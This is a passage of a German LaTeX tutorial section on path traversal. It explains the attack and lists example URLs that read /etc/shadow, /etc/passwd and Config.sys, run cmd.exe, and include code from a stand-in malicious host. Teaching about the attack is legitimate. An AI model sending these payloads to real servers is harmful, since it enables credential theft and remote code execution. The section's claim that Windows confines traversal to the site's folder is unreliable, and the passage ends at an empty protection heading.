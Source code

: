 \subsubsection{Grundprinzip}
\label{sec:PT_GP}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsubsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\ \\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\ \\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\ \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}
\subsubsection{Protection Path-Traversal}
\label{sec:PPT}
